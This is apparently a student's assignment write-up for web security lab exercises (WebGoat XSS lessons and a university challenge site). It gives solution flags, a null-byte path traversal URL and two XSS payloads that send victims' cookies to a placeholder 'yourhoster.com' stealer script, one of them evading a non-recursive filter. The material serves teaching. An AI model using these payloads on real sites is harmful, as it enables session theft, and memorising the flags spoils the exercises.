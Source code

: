 # Assignment 4

* Do the following lessons in WebGoat (you do not have to submit any notes regarding these exercises to blackboard):

	* Cross-Site Scripting (XSS) - Stored XSS attacks

		* ![StoredXSS1](img/stored_xss_1.PNG)
		* ![StoredXSS2](img/stored_xss_2.PNG)

	* Cross-Site Scripting (XSS) - Reflected XSS attacks

		* ![ReflectedXSS](img/reflected_xss.PNG)	

* Do the following four exercises on http://websecurity.cs.ru.nl/
	
	* Level 3

		* http://websecurity.cs.ru.nl/?level=3&nieuws=admin/index.php
		* Solution: YTgwZWM1NDg2

	* Level 4
		* http://websecurity.cs.ru.nl/?level=4&nieuws=admin/index.php%00
		* The appended string "%00" represents the nullbyte (\0) and forces php to ignore every appended string behind it
		* See also: http://stackoverflow.com/questions/12731547/can-an-appended-file-suffix-to-a-parameter-for-file-get-contents-be-bypassed
		* Solution: ZjQ5ZmVlOTZm

	* Level 5

		* Use your own host and the cookie stealer script provided on the websec website.
		* In the searchterm field enter: ``` <script>document.location="http://yourhoster.com/stealer.php?cookie="+document.cookie</script>```
		* Click on the search button and use Webscarab to get the resulting url to the search term.
		* Go to the contact site and enter the before mentioned url you created with your malicious code.
		* Solution: NzM2MGUzMWJh

	* Level 6
		
		* Nearly the same approach as Level 5 but this time greater than and less than symbols are getting filtered. There is no recursive filtering though.
		* We can therefore use a snippet like this for the searchterm: ``` <scr<script>ipt>document.location="http://yourhoster.com/stealer.php?cookie="+document.cookie</scr</script>ipt> ```
		* See also: https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)#Example_5:_Bypassing_non-recursive_filtering
		* Solution: NDY3YjMwZjRl

